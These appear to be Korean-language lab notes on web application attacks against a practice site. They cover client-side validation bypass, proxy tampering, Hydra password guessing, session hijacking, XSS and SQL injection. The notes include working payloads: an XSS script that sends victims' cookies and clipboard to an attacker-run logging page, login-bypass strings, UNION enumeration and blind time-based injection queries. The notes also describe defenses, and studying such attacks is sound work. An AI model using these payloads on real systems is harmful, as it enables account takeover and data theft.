


# 애플리케이션 공격 유형

데이터 검증


<br>

ByPassing Client Side Validation


<br>

##### SourceCode 직접 변조 

입력 값 제한 확인


<br>

회원가입페이지 > 페이지 소스 보기 또는 다른 이름으로 저장 


<br>

12글자 이상 넣어보고 회원가입


<br>

추가로 검증하는 부분 확인

```
<link rel="stylesheet" href="test_files/style_contents.css" type="text/css">
		<script>
			function ck(){				
				if(document.mform.user_id.value == "" || document.mform.user_id.value.length < 4 || document.mform.user_id.value.length > 12){
					alert("아이디를 다시 입력하세요.");
					mform.user_id.focus();
					return false;
				}

입력한 아이디가 없거나 또는 4글자 이하이거나 또는 12글자 이상인경우 아이디를 다시 입력하세요를 팝업 

if(document.mform.user_id.value == "" || document.mform.user_id.value.length < 4 || document.mform.user_id.value.length > 15){
```


<br>

다시 시도


```
멤버 가입 관련 페이지 경로 오류 발생

소스코드
<input value="등록" onclick="ck();" class="btn_default btn_gray" type="button">

~
입력값 검증 되면 지정된 페이지로 전송 
document.mform.submit();

form 안의 입력된 내용을 action에 지정된 페이지로 전송 그런데 상대경로!!! 
<form name="mform" method="post" action="member_register_ok.php">

실제로 네트워크에서 접속가능한 경로로 변경 
<form name="mform" method="post" action="http://172.16.0.111/member/member_register_ok.php">
```


<br>

회원가입 시도


<br>

DB에 접속하여 회원가입 여부 확인


<br>

<br>

<br>

##### Proxy Tool을 이용한 우회

웹브라우저 프록시 사용 체크


<br>

회원가입 창에서 회원가입 정보 입력


<br>

paros 에서 trap > trap request 체크




<br>

DB확인


<br>

<br>

<br>

##### Web 인증 공격 

구성도


<br>

2003 서버 , 웹서버(IIS) 설치

<br>

Web Server 확인


<br>

웹서버(IIS)  에 기본인증 구현

```
관리도구 > 인터넷 정보 서비스 관리 > 2003-00 > 웹사이트 > 기본 웹사이트 > 속성 > 
디렉터리 보안 > 인증 및 액세스 제어 
> 익명 액세스 가능 체크 해제 
> 인증된 액세스 > 기본 인증 체크 - 2003서버의 사용자 /
```


<br>

xp -> Web Server 접근


<br>

kali -> Wire Shark

접근하기 전에 kali에서 Wire Shark를 켜두고 접근 하겠습니다.


<br>

디코딩


<br>

<br>

<br>

##### bruteforcing

무차별 대입 하면 시간이 오래 걸려서 dictionary attack 으로 대체 하겠습니다.

kali -> dictionary file 만들기

```
password 파일
vi /root/passlist.txt
P@ssw0rd
monkey
dragon
1234

user 파일
vi /root/userlist.txt
administrator
test
korea
dac01
```

<br>

kali -> hydra 이용해서 확인


<br>

kali -> xhydra 이용해서 확인


<br>

방어

```
2003]
gpedit.msc
컴퓨터 구성 > Windows 설정 > 보안 설정 > 계정 정책 > 계정 잠금 정책

비밀번호를 3회 틀리면 5분동안 계정 잠김
```


<br>

kali -> passlist.txt 수정

```
vim /root/passlist.txt

moneky
dragon
123
1234
123456

틀린 비밀번호만 입력
```

<br>

kali -> hydra 이용해서 확인


아무것도 나오지 않았습니다.

<br>

2003 -> 확인


계정이 잠겨있는 모습을 볼 수 있습니다.

<br>

<br>

<br>

##### parameter bruteforcing


<br>

Web Server -> test01 user 만들기

member table에 아무 기록 없는 상태에서 시작 하겠습니다.


```
mysql> insert into member values(
    -> 1,
    -> 'test01',
    -> '4111',
    -> '테스터',
    -> 'tester',
    -> 28,
    -> 'test01@test01',
    -> now()
    -> );
```


<br>

bruteforcing 설정


<br>

Web 접속


<br>

로그인 시도 (틀리게)


<br>

 bruteforcing 설정


<br>

bruteforcing 시작


<br>

<br>

<br>

#####  WEB Session Attack


SESSION : 연결에 식별을 할 수 있는 어떠한 값 

<br>

서버에서 세션ID 를 부여 클라이언트는 쿠키라는 위치에 저장 

```
vim /etc/php.ini
~
session.save_path = "/var/lib/php/session"
~
session.name = PHPSESSID

서버가 세션을 파일로 관리
[root@localhost html]# ls -al /var/lib/php/session/
합계 40
drwxrwx--- 2 root   apache 36864 2022-10-28 01:45 .
drwxr-xr-x 3 root   root    4096 2020-04-19 01:39 ..
-rw------- 1 apache apache     0 2022-10-28 01:45 sess_0r9t325k3pr69sfpuj600uhah5
-rw------- 1 apache apache     0 2022-10-28 01:44 sess_ile5vbqjho9r9domt55kmgq404
```

<br>

###### 클라이언트는 세션을 이용하여 자신을 서버에 인증 


구성도


<br>

Web Site에 test02 회원 가입 후 host pc에서 test01 로그인

xp -> Wire Shark로 phpssesionID sniffing 하기


<br>

xp -> paros 이용해서 test02 로그인


<br>

xp -> paros 설정


<br>

xp -> 확인


phpssesionID를 이용해서 test02의 닉네임이 아닌 test01의 닉네임이 나오는 모습 입니다.

<br>

방어


```
대응책
- Sniffing 공격 차단 : https:// 
- 강력한 보안이 필요한 경우 페이지 별 Session Cookie를 할당 함

 개인정보 변경 페이지 → 패스워드 재 인증
- Session Cookie의 만료 시간을 적절히 설정 함
- 로그 아웃을 수행한 경우 Session을 파기 함
- Session Cookie와 클라이언트의 주소를 함께 확인 함


host]
edge > 로그인 > F12 (개발자 모드) > 네트워크 > 도크사이드 : 아래표시 


web server
index.php 
-> member/member_login.php -> member/member_login_check.php 
-> member/member_logout.php 

if (ini_get("session.use_cookies")) { 
	$params = session_get_cookie_params(); 
	setcookie( 
    	session_name(), '', time() - 42000, 
		$params["path"], $params["domain"], 
		$params["secure"], $params["httponly"] 
	); 
}                 << 내용 추가
```

<br>

host -> 확인


코드를 삽입해서 phpssesionID 변경 되도록 한 모습 입니다.

<br>

<br>

<br>

##### XSS(Cross Site Scriping)


<br>

공격 종류


<br>

##### injection vector test


<br>

<br>

<br>

##### reflective XSS test

```
사회공학(SPAM mail/쪽지 등) 공격을 등으로 사용자가 선택하기를 유도 함
-
사용자가 악성 스크립트가 포함된 URL을 클릭하면 서버에 요청이 전달 됨
-
서버의 취약한 페이지(클라이언트의 입력 값을 응답으로 출력 함)에서 악성 스크립트를 포함한 응답을 클
라이언트에 전송 함
-
클라이언트에서 공격자의 악성 스크립트가 실행되며 공격자가 지시한 동작을 수행 함
```

<br>

공격 원리

공격자가 악성코드를 미리 준비 함 → 악성 스크립트가 포함된 URL


혹은


<br>

xp -> 게시판에 글 생성


<br>

2003 -> 게시판 글 읽고 url 클릭 해보기


공격자는 해당 링크를 게시판/이메일/메신저 ... 으로 전달하여 상대가 클릭하도록 유도 하는 공격 방식 입니다.

<br>

<br>

<br>

##### stored XSS test


reflective는 게시판에 들어가서 url을 눌러야 실행

게시판의 게시물을 선택하는 순간 자동으로 실행

이 부분이 차이점 입니다.

<br>

##### XSS  실제 적용

구성도


<br>

환경 구성

kali

```
systemctl restart apache2      << apache 실행
systemctl status apache2       << 실행 확인
```

xp -> kali web 접속


<br>

kali -> 공격 대상의 정보가 기록 되도록 Web Server 구성

```
공격대상이 자신의 PHP 세션정보를 기록할 페이지를 작성 
vim /var/www/html/getcookie.php

<?php
 $fd=fopen("/tmp/cookie.dat","a+");
 while(list($key,$val)=each($_GET))
 {
   fputs($fd,$_SERVER['REMOTE_ADDR']."");
   fputs($fd,$key);
   fputs($fd,"=");
   fputs($fd,$val);
   fputs($fd,"\n"); 
 }
 fclose($fd);
?>
```

<br>

게시판에 글을 작성 1줄로 작성 (test 입니다.)


```
daum 이미지 주소를 복사해서 아래의 처럼 게시글을 작성해 주시면 됩니다.
</img><script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
```


<br>

xp -> 게시판에 공격할 글을 작성 


```
</img><script>i.src="http://172.16.0.200:8080/getcookie.php?cookie="+document.cookie</script>
```

<br>

2003 -> test01로 접속하여 게시글 확인


<br>

kali -> 확인

```
vim /tmp/cookie.dat
```


<br>

XP 에서 paros 를 이용하여 PHPSSESID 를 변조하여 다른 사용자로 변신!!!


test02의 닉네임은 kh였지만 phpssesionID를 얻어서 그것을 이용해 페이지를 이동하여 test01의 닉네임이 나왔습니다.

<br>

진행 방식


이런 식으로 진행되는 과정 이였습니다.

<br>

<br>

<br>

##### XSS  실제 적용 II

접속한 사용자의 클립보드(ctrl+c)를 전송 

xp -> 공격자 게시판 글을 작성

```
</img><script>i.src="http://칼리리눅스2016주소/getcookie.php?clipboard="+clipboardData.getData("text")</script>
```


<br>

확인


<br>

<br>

<br>

##### SQL Injection

njection

- 주입 공격
- 데이터 입력이 가능한 위치에 공격을 위한 입력 값을 주입하는 공격 • SQL Injection
- Database에 직접적으로 전달되는 입력 값에 SQL문이나 DataBase에서 실행 가능한 명령을 삽입하여 인증 우회, Database 정보 조회, 변조, 시스템 조작 등을 수행하는 공격
- 공격 대상 → Database Server (Database Hacking) • 공격 발생 원인
- Database에 전달되는 값을 적절한 검증 없이 이용하는 경우
- Database의 값을 이용하는 서버의 기능이 취약한 로직으로 구성된 경우 • 피해 범위
- WAS의 인증 우회, Database 정보유출/조작/파괴, System Command 실행, System의 주요 파일 노출

<br>

공격 방식


<br>

###### injection vector


```
http://172.16.0.110/board/board_view.php?num=21

http://172.16.10.20/board/board_view.php?num=21%20and%201=1
http://172.16.10.20/board/board_view.php?num=21 and 1=1
                 참(게시판글이 있나?)               참 

a AND b  :  a , b  모두 참일때 정상 실행


http://172.16.10.20/board/board_view.php?num=21%20and%201=1
                         참                            참 


http://172.16.10.20/board/board_view.php?num=21%20and%201=2
                         참                              거짓


http://172.16.10.20/board/board_view.php?num=10%20and%201=1
                        거짓                             참
```

<br>

##### WAS 인증 우회 


<br>

로그인 관련

```
member_login.php(ID/PASSWORD 입력) 
-> 
member_login_check.php(입력된 ID/PASSWORD 를 DB 접속하여 검증)
~~~
$strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
$rs=mysql_query($strSQL,$conn);
$rs_arr=mysql_fetch_array($rs);

-- 반환값이 존재 하는가 ?
if($rs_arr){
```



<br>


```
```php
1) $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";

2) select * from member where u_id='$id' and u_pass='$pw'

3) select * from member where u_id='**' or '1**' and u_pass='**' or '1**'

id : ' or 1'
password : ' or '1
```

<br>

조건식 처리 순서


<br>

공격 결과


<br>


```
WAS 인증 우회 시도

id : ' or '1
password : ' or '1

결과가 항상 아무리 해도 첫번째 행만 로그인 
$rs_arr=mysql_fetch_array($rs);   << 이 부분이 원인
```


첫번째 행 test01 로그인 된 모습

<br>

특정 계정 위회하기


<br>

처리 순서


<br>

공격 확인


이 공격은 계정을 예측해서 넣는 공격 입니다. 즉 계정이 존재 해야만 공격이 성공할 수 있습니다.

지금 사이트는 admin 계정을 만들지 않았기에 test~~ ID로 확인을 해 보았습니다.

<br>

방어


```
- 관리자계정명을 쉬운걸로 하면 안됨 
- 웹사이트 첫번째 사용자 계정은 관리자로 두면 안됨

$id = trim($_POST["user_id"]);   -- test01' # 
$id = trim($_POST["user_pw"]);   -- sadsad' # 

-- 입력받은 id/pass 와 db에서 조회한 id/pass 가 같은지 확인 
if(($rs_arr["u_id"]=$id)) && if(($rs_arr["u_pass"]=$pw)){
}

vim /var/www/html/member/member_login_check.php
 21                 #if($rs_arr){
 22                 if(($rs_arr["u_id"]==$id) && ($rs_arr["u_pass"]==$pw)){
 23                         $_SESSION[user_id]=$rs_arr[u_id];
 24                         $_SESSION[nickname]=$rs_arr[nickname];
 25                         echo "<script>
 26                                 alert('로그인 되었습니다.');
 27                                 location.replace('../index.php');
 28                                 </script>";
 
이렇게 수정 후 다시 확인 해보기
```


<br>

<br>

<br>

#####  SQL Injection 분류


<br>

###### Non Blind SQL Injection


<br>

union 

```php
정의 : 두 개의 테이블 결과값을 하나의 테이블에 출력하는 DML
조건 : 각 테이블에서 반환하는 열의 갯수가 같아야함
```

<br>

bns.sql 추가

```
create database bns;

use bns;

create table sword(
s_name varchar(52) primary key,
s_level int unsigned not null,
s_attack int unsigned not null);

create table market(
m_no int auto_increment primary key,
m_category varchar(32) not null,
m_name varchar(52) not null,
m_seller varchar(32) not null);

insert into sword values('곤륜검',50 , 540);
insert into sword values('풍뢰검',45 ,263 );
insert into sword values('염화검',36, 147 );
insert into sword values('요마검',20, 64);

insert into market values(NULL, '지팡이' , '촉마지팡이 ' , 'merry'); 
insert into market values(NULL, '검' , '곤륜검 ' , 'evernick');
insert into market values(NULL, '기공패' , '곤륜기공패 ' , 'jamienick');
insert into market values(NULL, '검' , '풍뢰검' , 'ruina');
```

<br>

DB 확인


<br>

union test


<br>

행이 맞지 않으면 오류


<br>

게시글 초기화

```
mysql> delete from board;
Query OK, 7 rows affected (0.01 sec)
```

<br>

게시글 5개 정도 추가


<br>

board table 행(컬럼) 갯수


<br>

게시판 글 번호로 확인 컬럼의 갯수

```
order by 10(10번째 컬럼을 기준으로 정렬)
- 11개컬럼을 가지고 있는경우 12번째 컬럼으로 정렬해라 
http://172.16.0.110/board/board_view.php?num=43 order by 10
http://172.16.0.110/board/board_view.php?num=43 order by 11
http://172.16.0.110/board/board_view.php?num=43 order by 12  (게시판 출력 안됨) 

게시판의 컬럼은 총 11개 

- 정확한 컬럼수로 맞추지 않으면 게시판 내용 표시 안됨 
http://172.16.0.110/board/board_view.php?num=43 union select 1,2,3,4,5,6,7,8,9,10,11 #
```


<br>

몇번째 컬럼이 게시판 어디에 표시 되는지 확인

```
게시판에 없는 번호를 사용 (주로 -1)
http://172.16.0.110/board/board_view.php?num=-1 union select 1,2,3,4,5,6,7,8,9,10,11 #
```


<br>

몇가지 확인


<br>

원하는 정보 출력 테스트


```
http://172.16.0.110/board/board_view.php?num=-1 union select 1,user(),3,database(),version(),6,7,8,9,10,11 #
```

<br>

확인


<br>

information_schema DB 


Database Schema 파악 순서

- Database → Table → Column → Data type → Data

<br>

구조 파악


```
mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
28 rows in set (0.00 sec)
```


<br>

직접 적용

```
http://172.16.0.110/board/board_list.php?k_s=1&keyword=union+select+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11+%23
```


<br>


<br>

테이블 정보

WebTest DB  를 공격대상으로 설정

````
WebTest DB 의 테이블 정보 
mysql> use WebTest;
Database changed
mysql> show tables;
+-------------------+
| Tables_in_WebTest |
+-------------------+
| board             |
| member            |
+-------------------+
2 rows in set (0.00 sec)

mysql> use information_schema;
mysql> desc tables;
+-----------------+---------------------+------+-----+---------+-------+
| Field           | Type                | Null | Key | Default | Extra |
+-----------------+---------------------+------+-----+---------+-------+
~
| TABLE_SCHEMA    | varchar(64)         | NO   |     |         |       |  DB명
| TABLE_NAME      | varchar(64)         | NO   |     |         |       |  테이블명
| TABLE_TYPE      | varchar(64)         | NO   |     |         |       |  테이블형식(유저생성:BASE ~~~ , DBMS : SYSTEM)
~
21 rows in set (0.00 sec)

```
WebTest DB 의 테이블 정보 
mysql> use WebTest;
Database changed
mysql> show tables;
+-------------------+
| Tables_in_WebTest |
+-------------------+
| board             |
| member            |
+-------------------+
2 rows in set (0.00 sec)

mysql> use information_schema;
mysql> desc tables;
+-----------------+---------------------+------+-----+---------+-------+
| Field           | Type                | Null | Key | Default | Extra |
+-----------------+---------------------+------+-----+---------+-------+
~
| **TABLE_SCHEMA**    | varchar(64)         | NO   |     |         |       |  DB명
| **TABLE_NAME**      | varchar(64)         | NO   |     |         |       |  테이블명
| TABLE_TYPE      | varchar(64)         | NO   |     |         |       |  테이블형식(유저생성:BASE ~~~ , DBMS : SYSTEM)
~
21 rows in set (0.00 sec)

TABLE_SCHEMA='WebTest'인TABLE_NAME  을 조회
select TABLE_NAME from information_schema.tables where TABLE_SCHEMA='WebTest';
```
WebTest DB 의 테이블 정보 
mysql> use WebTest;
Database changed
mysql> show tables;
+-------------------+
| Tables_in_WebTest |
+-------------------+
| board             |
| member            |
+-------------------+
2 rows in set (0.00 sec)

mysql> use information_schema;
mysql> desc tables;
+-----------------+---------------------+------+-----+---------+-------+
| Field           | Type                | Null | Key | Default | Extra |
+-----------------+---------------------+------+-----+---------+-------+
~
| **TABLE_SCHEMA**    | varchar(64)         | NO   |     |         |       |  DB명
| **TABLE_NAME**      | varchar(64)         | NO   |     |         |       |  테이블명
| TABLE_TYPE      | varchar(64)         | NO   |     |         |       |  테이블형식(유저생성:BASE ~~~ , DBMS : SYSTEM)
~
21 rows in set (0.00 sec)

TABLE_SCHEMA='WebTest'인TABLE_NAME  을 조회

mysql> select TABLE_NAME from information_schema.tables where TABLE_SCHEMA='WebTest';
+------------+
| TABLE_NAME |
+------------+
| board      |
| member     |
+------------+
2 rows in set (0.00 sec)

mysql> select TABLE_NAME,TABLE_SCHEMA from information_schema.tables;
+---------------------------------------+--------------------+
| TABLE_NAME                            | TABLE_SCHEMA       |
+---------------------------------------+--------------------+
~
| board                                 | WebTest            |
| member                                | WebTest            |
~
+---------------------------------------+--------------------+
55 rows in set (0.00 sec)

이전 데이터 베이스 이름 확인 했던 방식
' union select 1,2,3,4,5,6,7,8,9,10,SCHEMA_NAME from information_schema.SCHEMATA #
' union select 1,2,3,4,TABLE_NAME,6,7,8,9,TABLE_SCHEMA from information_schema.tables where TABLE_SCHEMA='WebTest' #
````

<br>

컬럼(열) 정보 확인

```
mysql> desc columns;
+--------------------------+---------------------+------+-----+---------+-------+
| Field                    | Type                | Null | Key | Default | Extra |
+--------------------------+---------------------+------+-----+---------+-------+
~
| TABLE_SCHEMA             | varchar(64)         | NO   |     |         |       | DB명
| TABLE_NAME               | varchar(64)         | NO   |     |         |       | 테이블명
| COLUMN_NAME              | varchar(64)         | NO   |     |         |       | 컬럼명
~~~

19 rows in set (0.00 sec)

select TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME from information_schema.columns;


DB 명을 where 조건으로 필터
mysql> select TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME from information_schema.columns
    -> where TABLE_SCHEMA='WebTest';
+--------------+------------+-------------+
| TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME |
+--------------+------------+-------------+
| WebTest      | board      | strNumber   |
| WebTest      | board      | strName     |
| WebTest      | board      | strPassword |
| WebTest      | board      | strEmail    |
| WebTest      | board      | strSubject  |
| WebTest      | board      | strContent  |
| WebTest      | board      | htmlTag     |
| WebTest      | board      | viewCount   |
| WebTest      | board      | filename    |
| WebTest      | board      | filesize    |
| WebTest      | board      | writeDate   |
| WebTest      | member     | no          |
| WebTest      | member     | u_id        |
| WebTest      | member     | u_pass      |
| WebTest      | member     | u_name      |
| WebTest      | member     | nickname    |
| WebTest      | member     | age         |
| WebTest      | member     | email       |
| WebTest      | member     | reg_date    |
+--------------+------------+-------------+
19 rows in set (0.00 sec) 

위의 결과를 출력
테이블 명 에서 사용한걸 이용
' union select 1,2,3,4,TABLE_NAME,6,7,8,9,10,TABLE_SCHEMA from information_schema.tables where TABLE_SCHEMA='WebTest' #

' union select  1,2,3,4,TABLE_NAME,6,7,8,9,10,COLUMN_NAME
```

<br>

data 확인

위에서 알아낸 테이블과 컬럼명을 기반으로 아이디와 패스워드를 조회하는 SQL 문을 사용 

<br>

<br>

<br>

##### blind injection


<br>

substring()

```
mysql> select substring('test01',1,1);
+-------------------------+
| substring('test01',1,1) |
+-------------------------+
| t                       |
+-------------------------+
1 row in set (0.00 sec)

mysql> select substring('test01',2,1);
+-------------------------+
| substring('test01',2,1) |
+-------------------------+
| e                       |
+-------------------------+
1 row in set (0.00 sec)

mysql> select substring('test01',2,2);
+-------------------------+
| substring('test01',2,2) |
+-------------------------+
| es                      |
+-------------------------+
1 row in set (0.00 sec)
```

<br>

ascii()

```
mysql> select ascii('a');
+------------+
| ascii('a') |
+------------+
|         97 |
+------------+
1 row in set (0.00 sec)

mysql> select ascii('A');
+------------+
| ascii('A') |
+------------+
|         65 |
+------------+
1 row in set (0.00 sec)
```

<br>

limit

```
mysql> select u_id from member;
+--------+
| u_id   |
+--------+
| andor  |
| test01 |
| test02 |
+--------+
3 rows in set (0.00 sec)

mysql>  select u_id from member limit 0,2;
+--------+
| u_id   |
+--------+
| andor  |
| test01 |
+--------+
2 rows in set (0.00 sec)

mysql> select u_id from member limit 0,1;
+-------+
| u_id  |
+-------+
| andor |
+-------+
1 row in set (0.00 sec)

mysql> select u_id from member limit 1,1;
+--------+
| u_id   |
+--------+
| test01 |
+--------+
1 row in set (0.00 sec)

mysql> select u_id from member limit 0,1;
+-------+
| u_id  |
+-------+
| andor |
+-------+
1 row in set (0.00 sec)

mysql> select substring('andor',2,1);
+------------------------+
| substring('andor',2,1) |
+------------------------+
| n                      |
+------------------------+
1 row in set (0.00 sec)

mysql> select substring((select u_id from member limit 0,1),2,1);
+----------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) |
+----------------------------------------------------+
| s                                                  |
+----------------------------------------------------+
1 row in set (0.00 sec)


ascii()
mysql> select ascii(substring((select u_id from member limit 0,1),2,1));
+-----------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) |
+-----------------------------------------------------------+
|                                                       115 |
+-----------------------------------------------------------+
1 row in set (0.00 sec)
```

<br>

Blind SQL Injection 특징  테스트 I

```
mysql> select substring((select u_id from member limit 0,1),2,1);
+----------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) |
+----------------------------------------------------+
| n                                                  |
+----------------------------------------------------+
1 row in set (0.02 sec)

- 일치
mysql> select substring((select u_id from member limit 0,1),2,1) = 'n';
+----------------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) = 'n' |
+----------------------------------------------------------+
|                                                        1 |
+----------------------------------------------------------+
1 row in set (0.00 sec)

- 불일치
mysql> select substring((select u_id from member limit 0,1),2,1) = 'j';
+----------------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) = 'j' |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.00 sec)
```

<br>

Blind SQL Injection 특징 테스트 II

```
mysql> select substring((select u_id from member limit 0,1),2,1);
+----------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) |
+----------------------------------------------------+
| n                                                  |
+----------------------------------------------------+
1 row in set (0.00 sec)

mysql> select ascii(substring((select u_id from member limit 0,1),2,1));
+-----------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) |
+-----------------------------------------------------------+
|                                                       110 |
+-----------------------------------------------------------+
1 row in set (0.00 sec)

- 소,대문자 (알파벳일 확률이 높은)
ascii 코드 65보다 같거나 큰가요? 
 select ascii(substring((select u_id from member limit 0,1),2,1)) >= 65;
+-----------------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 |
+-----------------------------------------------------------------+
|                                                               1 | -> True
+-----------------------------------------------------------------+
1 row in set (0.00 sec)

ascii 코드 111보다 같거나 큰가요? 
mysql> select ascii(substring((select u_id from member limit 0,1),2,1)) >= 111;
+------------------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) >= 111 |
+------------------------------------------------------------------+
|                                                                0 | -> False
+------------------------------------------------------------------+
1 row in set (0.00 sec)
```

<br>

boolean -based blind injection


injection vector : 참,거짓을 표시할수 있는 공간 

<br>

```
// $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
select * from member where u_id='' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #' and u_pass='$pw';

ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #


id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #
pass : 아무거나 
```

<br>

```
데이터베이스명 알아내기
-- 미리 체크
mysql> select database();
+------------+
| database() |
+------------+
| WebTest    |
+------------+
1 row in set (0.00 sec)

-- 모른다는 가정하에 테스트
- 알파벳인가 ? (확률)
' or ascii(substring(**database()**,1,1)) >= 65  #
참

- 대소문자 ? (확률)
' or ascii(substring(**database()**,1,1)) >= 97  #
거짓 

' or ascii(substring(**database()**,2,1)) >= 65 #
' or ascii(substring(**database()**,3,1)) >= 65 #
' or ascii(substring(**database()**,4,1)) >= 65 #
```

<br>

<br>

<br>

Boolean-Based Blind Injection 스크립트 작성

- Blind SQL Injection 수행 시 정보 획득을 위해 수 많은 쿼리를 발생시켜야 함
- 예로 회원정보 테이블에서 100여 건의 레코드를 추출하기 위해서는 수 만개의 쿼리를 사용해야 될 수도있음
- 쿼리를 직접 대입하는 것은 불가능은 아니지만 현실적으로 매우 힘들기 때문에 공격 스크립트를 작성후 정보 획득  C, PHP, Perl, Python, Ruby, ...

<br>

<br>

<br>

#####  Time-Based Blind SQL Injection


<br>

sleep 함수

```
- 조건의 참인 SQL Query의 응답시간을 지연시키는 함수
 참 → 지정된 시간만큼 지연시킨 후 결과 반환
 거짓 → 즉시 결과 반환
- 네트워크의 통신 상태에 따라 결과가 부정확 할 수 있음

사용 예
 and 연산자를 사용하는 경우 앞의 조건이 참이면 뒤의 내용 실행
 앞의 조건이 거짓이면 뒤의 내용 실행하지 않음(Short Cut) - 어차피 거짓이므로 !!!! 

A and B
- A 가 참인경우 B 확인
- A 가 거짓인경우 B 확인  

참  True 1  on
거짓 False 0  off 
```


<br>

웹 페이지에 test

```
A OR B
A,B 중 하나만 참이면 참 
A,B 모두 참이면 참 

AND,OR 연산자 우선순위 : AND 

$strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";

로그인 창
ID   : ' or 1 and sleep(3) # 
PASS : 상관없음 

팝업창 응답이 빨리 뜨는지 만약에 구분안된다 생각되면 sleep(10)정도로 하셔도 됩니다.

참
select * from member where u_id='' or 1 and sleep(3) #' and u_pass='$pw';

거짓 
select * from member where u_id='' or 0 and sleep(3) #' and u_pass='$pw';
```

<br>

database() 이용하여 데이터 베이스명 첫 글자 알아내기

```
알파벳 문자인가 ?  
select * from member where u_id='' or ascii(substring(database(),1,1))>=65 and sleep(5) #' and u_pass='$pw';

ID : ' or ascii(substring(database(),1,1))>=65 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 > 알파벳 문자일 확률이 높다


소문자인가 ?
ID : ' or ascii(substring(database(),1,1))>=97 and sleep(5) #
PASS : 아무거나 

결과) 로그인 실패 창이 빨리 뜬다 - 거짓 > 소문자가 아니다 

특정 알파벳보다 아스키코드가 큰가 ? M이거나 보다 큰가?
ID : ' or ascii(substring(database(),1,1))>=77 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 

S 보다  같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=83 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 

V 보다  같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=86 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - 참 

X보다 같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=88 and sleep(5) #
PASS : 아무거나 

결과) 로그인 실패 창이 빨리 뜬다 - 거짓 :  X 보다 아스키코드가 작다 

W인가?
ID : ' or ascii(substring(database(),1,1))=87 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - W 인거 확인
```

<br>

